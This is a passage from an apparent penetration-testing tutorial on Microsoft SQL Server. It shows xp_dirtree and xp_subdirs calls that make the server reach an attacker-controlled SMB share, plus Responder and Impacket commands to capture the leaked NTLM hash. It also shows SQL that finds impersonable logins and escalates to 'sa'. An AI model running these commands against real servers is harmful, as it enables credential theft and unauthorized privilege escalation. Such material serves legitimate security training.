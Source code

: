 ```sql
-- Using xp_dirtree
EXEC master..xp_dirtree '\\10.10.14.15\share\'
GO

-- Using xp_subdirs
EXEC master..xp_subdirs '\\10.10.14.15\share\'
GO
```

To capture the hash:

```bash
# Using Responder
sudo responder -I tun0

# Using Impacket
sudo impacket-smbserver share ./ -smb2support
```

### User Impersonation

MSSQL allows users with the `IMPERSONATE` permission to take on the permissions of other users:

```sql
-- Identify users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO

-- Check current user and role
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO

-- Impersonate another user
EXECUTE AS LOGIN = 'sa'
GO

-- Verify impersonation
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO

-- Revert to original user
REVERT
GO
```

### Linked Servers
